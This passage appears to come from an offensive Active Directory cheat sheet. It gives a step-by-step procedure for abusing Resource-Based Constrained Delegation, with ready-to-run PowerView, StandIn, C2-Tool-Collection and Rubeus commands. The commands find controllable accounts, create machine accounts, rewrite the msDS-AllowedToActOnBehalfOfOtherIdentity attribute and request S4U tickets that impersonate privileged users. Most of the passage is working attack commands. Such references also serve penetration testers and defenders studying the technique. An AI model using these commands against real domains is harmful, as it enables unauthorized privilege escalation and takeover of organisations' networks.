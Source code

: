 		- 2\. \(optional\) Move the generated \.ccache file to a widely accessable directory and change ownership from root to your current account \(e\.g\. /tmp or ~/Documents\) 
		- 3\. Import kerberos ticket: `export KRB5CCNAME=</path/to/ticket.ccache>`
	- 3\. If the service type doesn't allow for code execution \(e\.g\. www/server\.domain\.local\) impacket will modify it automatically\. It is now possible to run attacks under the context of the impersonated account against the server you have delegation rights for\. Use ‘\-k’ option for impacket tools\. 

#### _Resource\-Based Constrained Delegation abuse:_
Resource\-based constrained delegation \(RBCD\) can be abused in the situation you have control over a low privileges misconfigured AD account that has implicit full control over a target computer’s attributes\. RBCD is implemented with a security descriptor on the target resource, instead of a list of SPNs on the “front\-end” to which it is allowed to delegate to\. This security descriptor is stored as a series of binary bytes in the "msDS\-AllowedToActOnBehalfOfOtherIdentity" attribute on a target computer object\.
>This attack only works on windows server 2012 or higher and windows 8 or higher\. Furthermore, the attribute 'msDS\-AllowedToActOnBehalfOfOtherIdentity' must be empty on the target computer\. 
- 1\. Identify a low privileged AD account that has 'GenericAll', 'GenericWrite' or 'WriteProperty' privileges over a computer object \(e\.g\. high value server\)\. In BloodHound search for accounts/groups with a value 1 or higher set for the attributes "First Degree Object Control" or "Group Delegated Object Control" \(both under "Outbound Control Rights"\)\.
- 2\. Find a way to take control over the identified account\.
- 3\. Create a new computer account or take control over a service account with a SPN set that doesn't point to the target object:
	- Service account with SPN: use any available method to take control over the service account which doesn’t has a SPN set for the target computer account\. 
	- Create new computer account: 
		- 1\. Verify if the "MachineAccountQuota" is higher than 0 \(default is 10\) to create a new computer account:
			- \([C2\-Tool\-Collection-BOF](https://github.com/outflanknl/C2-Tool-Collection)\): `GetMachineAccountQuota`
			- \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)\):
				- 1\. Copy the 'distinguishedname' value \(e\.g\. DC=hidro,DC=local\) from the output: `Get-DomainUser | select -first 1`
				- 2\. Request the "ms\-ds\-machineaccountquota" value: `Get-DomainObject -identity "<distinguishedname value>"`
		- 2\. Create new computer account 
			- \([C2\-Tool\-Collection-BOF](https://github.com/outflanknl/C2-Tool-Collection)\): `AddMachineAccount <computer name>`
			- \([StandIn](https://github.com/FuzzySecurity/StandIn)\): `Standin.exe --computer <new computer name> --make (--domain <domain> --user <user> --pass <password>)`
- 4\. Request the SID of the new computer account or service account \(StandIn\): `Standin.exe --sid <computer/service account name>$`
- 5\. Modify the target computer "msDS\-AllowedToActOnBehalfOfOtherIdentity" attribute and point it to your created computer account or service account: 
	- Password \(StandIn\): `Standin.exe --computer <target computer name> --sid <SID of newly created computer account> (--domain <domain> --user <user> --pass <password>)`
	- Ticket imported in session \(doesn't always work on high value servers like DC’s\) \(PowerView\): `$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID of newly created computer account>)"; $SDBytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDBytes, 0); Get-DomainComputer <target computer name> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}` 
- 6\. Verify if the SID of the created computer account or service account is set to the target computer 'msDS\-AllowedToActOnBehalfOfOtherIdentity' attribute \(StandIn\): `Standin.exe --object samaccountname=<target computer name>$`
- 7\. Select a user to impersonate \(this user must not be in the "Protected Users" group or set as 'Account is sensitive and cannot be delegated'\) and request a ticket to impersonate this user \(Rubeus\): `rubeus s4u /user:<computer account>$ /password:<password computer account> /impersonateuser:<user to impersonate> /msdsspn:"<service name (e.g. cifs)>/<FQDN target system>" /ptt`
- 8\. Leverage obtained privileges
- 9\. \(optional\) restore made changes:
	- 1\. Remove msDS-AllowedToActOnBehalfOfOtherIdentity from machine object properties \(StandIn\): `standin --computer <target computer name> --remove (--domain <domain> --user <user> --pass <password>)`